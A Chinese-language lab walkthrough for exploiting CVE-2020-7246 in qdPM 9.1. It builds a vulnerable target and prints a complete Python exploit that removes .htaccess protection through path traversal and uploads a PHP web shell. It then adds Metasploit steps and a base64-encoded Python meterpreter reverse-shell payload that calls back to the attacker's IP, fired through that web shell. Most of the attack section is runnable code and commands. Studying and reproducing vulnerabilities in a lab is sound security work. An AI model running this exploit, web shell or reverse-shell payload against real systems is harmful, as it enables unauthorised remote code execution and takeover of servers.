







# 0x0 前言
### CVE-2020-7246 Description  
A remote code execution (RCE) vulnerability exists in **qdPM 9.1 and earlier**. An attacker can **upload a malicious PHP code file** via the **profile photo functionality**, by leveraging a path traversal vulnerability in the users['photop_preview'] delete photo feature, allowing **bypass of .htaccess protection**. NOTE: this issue exists because of an incomplete fix for CVE-2015-3884.

### qdPM
qdPM is a free **web-based project management tool** suitable for a small team working on multiple projects. It is fully configurable. You can easy manage Projects, Tasks and People. Customers interact using a Ticket System that is integrated into Task management.

> 1. 此CVE的情境是攻擊者為PHP-Fusion的**一般權限使用者**，或是攻擊者透過其他方式取得一組**一般權限使用者**帳密  
> 2. 此CVE攻擊成功並非拿到root權限，而是web owner(www-data)的權限  
> 3. 目前(2020/12/17)qdpm仍未對此有漏洞之版本(9.1)進行更新或修復
* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Ubuntu 20.04)

# 0x2 受攻擊機環境建置
### 安裝PHP 7.2、Apache及MySQL
> qdPM 9.1必須執行於PHP 7.2
1. `sudo add-apt-repository ppa:ondrej/php`，新增舊的PHP版本之PPA

2. `sudo apt update`，更新apt

3. `sudo apt install php7.2 libapache2-mod-php7.2 php7.2-common php7.2-mbstring php7.2-gd php7.2-intl php7.2-curl php7.2-xml php7.2-mysql php7.2-pgsql php7.2-bcmath mysql-server`，安裝php7.2相關套件、Apache2及MySQL

### 下載qdPM並設定權限
4. `wget -c https://sourceforge.net/projects/qdpm/files/qdPM_9.1.zip/download -O qdpm_9.1.zip`，下載qdpm9.1

5. `sudo mkdir /var/www/html/qdpm; sudo unzip qdpm_9.1.zip -d /var/www/html/qdpm`，解壓縮**qdpm_9.1.zip**

6. 此時開啟瀏覽器，在網址列輸入`127.0.0.1/qdpm`，可以看到以下畫面，並提示未完成的相關操作  

7. `cd /var/www/html/qdpm/`，切換至qdPM所在目錄

8. `sudo chmod 777 core/cache/; sudo  chmod 777 core/config/; sudo  chmod 777 core/log/; sudo chmod 777 uploads/attachments/; sudo chmod 777 uploads/users/`，更改目錄權限

9. 此時回到瀏覽器發現已無錯誤訊息，**但此時尚未建立database，故還無法安裝**  

### 建立MySQL Database與使用者
10. `sudo mysql -u root -p`，執行mysql

11. `CREATE DATABASE qdpm;`，新增database **qdpm**  

12. `CREATE USER 'qdpm'@'localhost' IDENTIFIED BY '<password(vul.,)>';`，建立使用者帳密 **qdpm/vul.,** (帳號必須跟database名稱相同，密碼要加兩個符號才能符合密碼規定)

13. `GRANT ALL PRIVILEGES ON qdpm.* TO 'qdpm'@'localhost';`，賦予**帳號qdpm**存取**database qdpm**下所有table的權限

14. `ALTER USER 'qdpm'@'localhost' IDENTIFIED WITH mysql_native_password BY '<Web登入的密碼(vul.,)>';`，更改使用者qdpm的**預設登入方式**為密碼(預設似乎是使用socket)

14. `FLUSH PRIVILEGES;`，寫入權限設定

15. `exit`，離開mysql console

16. `sudo chown -R www-data:www-data /var/www/html/qdpm/`，修改qdpm目錄owner

17. `sudo chmod 775 ./`，修改qdpm目錄權限

### 安裝qdPM
18. 回到瀏覽器，根據以下步驟安裝qdPM  
> 此處帳密需與第2.12步相同  

> Email: 隨意(vulner@localhost.com)，但一定要是domain name的形式  
> Password: 隨意(vul.,)

> 安裝成功！

19. 此時回到 **http://127.0.0.1/qdpm/** 已是登入頁面，此時登入Admin帳號(vulner@localhost.com/vul.,)
> 帳密為上一步第2張圖設定的帳密  

### 新增qdPM受害使用者
20. **add user** > 依喜好設定 > **save**，新增一般權限之**受害使用者**
> Group: Client，一般權限之使用者即可  
> Full Name: <User Name(user01)>  
> Password: <Password(user01)>  
> Email: <Email(user01@localhost.com)>  

# 0x3 exploit
1. 創建**exploit.py**

        # Exploit Title: qdPM 9.1 - Remote Code Execution
        # Google Dork: intitle:qdPM 9.1. Copyright 2020 qdpm.net
        # Date: 2020-01-22
        # Exploit Author: Rishal Dwivedi (Loginsoft)
        # Vendor Homepage: http://qdpm.net/
        # Software Link: http://qdpm.net/download-qdpm-free-project-management
        # Version: <=1.9.1
        # Tested on: Windows 10 (Python 2.7)
        # CVE : CVE-2020-7246
        # Exploit written in Python 2.7
        # Tested Environment - Windows 10
        # Path Traversal + Remote Code Execution

        # Command - qdpm-exploit.py -url http://localhost/ -u user@localhost.com -p password
        # -*- coding: utf-8 -*-
        #!/usr/bin/python

        import requests
        from lxml import html
        from argparse import ArgumentParser

        session_requests = requests.session()

        def multifrm(
            userid,
            username,
            csrftoken_,
            EMAIL,
            HOSTNAME,
            uservar,
            ):
            request_1 = {
                'sf_method': (None, 'put'),
                'users[id]': (None, userid[-1]),
                'users[photo_preview]': (None, uservar),
                'users[_csrf_token]': (None, csrftoken_[-1]),
                'users[name]': (None, username[-1]),
                'users[new_password]': (None, ''),
                'users[email]': (None, EMAIL),
                'extra_fields[9]': (None, ''),
                'users[remove_photo]': (None, '1'),
                }
            return request_1

        def req(
            userid,
            username,
            csrftoken_,
            EMAIL,
            HOSTNAME,
            ):
            request_1 = multifrm(
                userid,
                username,
                csrftoken_,
                EMAIL,
                HOSTNAME,
                '.htaccess',
                )
            new = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                        , files=request_1)
            request_2 = multifrm(
                userid,
                username,
                csrftoken_,
                EMAIL,
                HOSTNAME,
                '../.htaccess',
                )
            new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                        , files=request_2)
            request_3 = {
                'sf_method': (None, 'put'),
                'users[id]': (None, userid[-1]),
                'users[photo_preview]': (None, ''),
                'users[_csrf_token]': (None, csrftoken_[-1]),
                'users[name]': (None, username[-1]),
                'users[new_password]': (None, ''),
                'users[email]': (None, EMAIL),
                'extra_fields[9]': (None, ''),
                'users[photo]': ('backdoor.php',
                                '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
                                , 'application/octet-stream'),
                }
            upload_req = session_requests.post(HOSTNAME
                    + 'index.php/myAccount/update', files=request_3)

        def main(HOSTNAME, EMAIL, PASSWORD):
            result = session_requests.get(HOSTNAME + '/index.php/login')
            login_tree = html.fromstring(result.text)
            authenticity_token = \
                list(set(login_tree.xpath("//input[@name='login[_csrf_token]']/@value"
                    )))[0]
            payload = {'login[email]': EMAIL, 'login[password]': PASSWORD,
                    'login[_csrf_token]': authenticity_token}
            result = session_requests.post(HOSTNAME + '/index.php/login',
                                        data=payload,
                                        headers=dict(referer=HOSTNAME
                                        + '/index.php/login'))
            account_page = session_requests.get(HOSTNAME + 'index.php/myAccount'
                    )
            account_tree = html.fromstring(account_page.content)
            userid = account_tree.xpath("//input[@name='users[id]']/@value")
            username = account_tree.xpath("//input[@name='users[name]']/@value")
            csrftoken_ = \
                account_tree.xpath("//input[@name='users[_csrf_token]']/@value")
            req(userid, username, csrftoken_, EMAIL, HOSTNAME)
            get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')
            final_tree = html.fromstring(get_file.content)
            backdoor = \
                final_tree.xpath("//input[@name='users[photo_preview]']/@value")
            print 'Backdoor uploaded at - > ' + HOSTNAME + '/uploads/users/' \
                + backdoor[-1] + '?cmd=whoami'

        if __name__ == '__main__':
            parser = \
                ArgumentParser(description='qdmp - Path traversal + RCE Exploit'
                            )
            parser.add_argument('-url', '--host', dest='hostname',
                                help='Project URL')
            parser.add_argument('-u', '--email', dest='email',
                                help='User email (Any privilege account)')
            parser.add_argument('-p', '--password', dest='password',
                                help='User password')
            args = parser.parse_args()

            main(args.hostname, args.email, args.password)

2. `python exploit.py -url http://<受攻擊機ip>/qdpm/ -u <受害使用者帳號> -p <受害使用者密碼>`，開始exploit(Python2)  

### Validation
3. 開啟瀏覽器，於網址列輸入 **http://<受攻擊機ip>/qdpm//uploads/users/727886-backdoor.php?cmd=<任意指令(id)>** ，可以看到我們已經得到了**Web shell**  

# 0x4 使用reverse shell獲得meterpreter shell
網路上的文章許多就到此為止，或者大陸網友使用叫**蟻劍**的軟體來得到shell，不知道有沒有相同功能的替代軟體，但以下我們嘗試使用**Reverse Shell**來得到完整的shell，不需得到完整shell此部分可以不用做

### msfconsole，開啟Reverse shell listen window
4. `use exploit/multi/handler`，選擇module

5. `set payload python/meterpreter/reverse_tcp`，設定payload

6. `set lhost <攻擊機ip>`，設定listen的ip(192.168.153.132)

7. `set lport <任意沒在用的port>`，設定listen的port(4444)

8. `exploit`，開始listen

### terminal，產生payload
9. `msfvenom -p python/meterpreter/reverse_tcp LHOST=<攻擊機ip> LPORT=<剛剛的port> -f raw`，產生python command based的payload  
  
得到**payload**:

        exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMTUzLjEzMicsNDQ0NCkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoemxpYi5kZWNvbXByZXNzKGJhc2U2NC5iNjRkZWNvZGUoZCkpLHsncyc6c30pCg==')[0]))  

### 瀏覽器，Exploit
10. 於網址列輸入http://192.168.153.146/qdpm//uploads/users/727886-backdoor.php?cmd=python3 -c **"<上一步的payload>"** (payload外要加雙引號"")，回到msfconsole，發現得到meterpreter  

### msfconsole，Validation
11. 查看uid  

# 0x5 Snort/Suricata Rule
無相關資源

# 0x6 Reference
1. https://blog.pentesteracademy.com/practicing-cve-2020-7246-under-3-minutes-6fd335c0a3b6
2. https://xz.aliyun.com/t/7795
3. https://www.youtube.com/watch?v=G7-B4T6SbKY&ab_channel=QuickNotepadTutorial
4. https://stackoverflow.com/questions/52364415/php-with-mysql-8-0-error-the-server-requested-authentication-method-unknown-to
